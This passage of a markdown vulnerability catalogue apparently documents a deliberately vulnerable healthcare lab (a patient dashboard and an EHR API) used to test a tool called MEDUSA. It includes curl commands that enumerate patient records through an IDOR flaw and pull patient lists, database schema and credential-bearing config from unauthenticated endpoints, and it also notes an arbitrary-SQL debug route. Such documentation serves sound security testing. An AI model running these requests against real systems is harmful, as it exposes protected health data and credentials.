 
#### 1.3 Insecure Direct Object Reference (IDOR)
**Location:** `dashboard.php?patient_id=X`

**Description:** No authorization check before displaying patient records.

**Exploitation:**
```bash
# Access any patient record without authorization
for i in {1..100}; do
  curl "http://localhost:8080/dashboard.php?patient_id=$i"
done
```

**MEDUSA Test Cases:**
- Enumerate all patient records
- Access records without authentication
- Modify patient data via parameter manipulation

**Impact:** Unauthorized access to all patient records (PHI breach)

---

### 2. EHR API (`ehr-api`)

#### 2.1 Missing Authentication
**Location:** Multiple endpoints

**Vulnerable Endpoints:**
- `GET /api/patients` - List all patients
- `GET /api/users` - List all users
- `GET /api/admin/schema` - Database schema
- `GET /api/admin/config` - Configuration details
- `POST /api/debug/query` - Execute arbitrary SQL

**Exploitation:**
```bash
# List all patients without authentication
curl http://localhost:3000/api/patients

# Dump database schema
curl http://localhost:3000/api/admin/schema

# Extract credentials
curl http://localhost:3000/api/admin/config
```

**MEDUSA Test Cases:**
- Access all endpoints without authentication
- Extract database configuration
- Execute arbitrary SQL via debug endpoint

**Impact:** Complete API compromise, data breach

---
